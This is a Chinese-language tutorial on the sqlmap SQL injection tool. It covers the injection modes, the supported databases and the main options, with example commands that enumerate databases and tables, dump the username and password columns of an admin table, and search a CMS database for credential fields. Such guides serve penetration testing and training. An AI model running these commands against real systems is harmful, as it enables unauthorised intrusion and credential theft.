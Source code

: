 # sqlmap

sqlmap支持五种不同的注入模式：

1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2. 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4. 联合查询注入，可以使用union的情况下的注入。
5. 堆查询注入，可以同时执行多条语句的执行时的注入。

### sqlmap支持的数据库有

MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

## 选项：

* –version 显示程序的版本号
* -h, –help 显示此帮助信息
* --h 显示高级帮助信息
* -v 输出内容详细级别：0-6（默认为1）

#### Target（目标）：

以下至少需要设置其中一个选项为目标。

| -u | URL | –url=URL 目标URL |
| :--- | :--- | :--- |
| -d | DIRECT | 直接连接到数据库 |
| -l | LIST | 从Burp或WebScarab代理日志解析目标 |
| -r | REQUEST | 从一个文件中载入HTTP请求 |
| -g | GOOGLEDORK | 处理Google dork的结果作为目标URL |
| -c | CONFIGFILE | 从INI配置文件中加载选 |

## 检测注入

小提示：

`--wizard 给初级用户的简单向导界面`

`--batch 跳过一些选项，自动选择`

### 基本格式

```
sqlmap -u "http://www.vuln.cn/post.php?id=1"
默认使用level1检测全部数据库类型

sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3
指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面)
```

### 跟随302跳转

当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，  
当注入错误的时候，先报错再跳转的时候，不需要跟随302。  
目的就是：要追踪到错误信息。

## 注入成功后

### 获取数据库基本信息

```
#查询有哪些数据库
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 –dbs

#查询test数据库中有哪些表
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 -D test –tables

#查询test数据库中admin表有哪些字段
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 -D test -T admin –columns

#dump出字段username与password中的数据
sqlmap -u "http://www.vuln.cn/post.php?id=1" –dbms mysql –level 3 -D test -T admin -C “username,password” –dump
```

### 从数据库中搜索字段

```
#在dedecms数据库中搜索字段admin或者password
sqlmap -r "c:\tools\request.txt" –dbms mysql -D dedecms –search -C admin,password
```



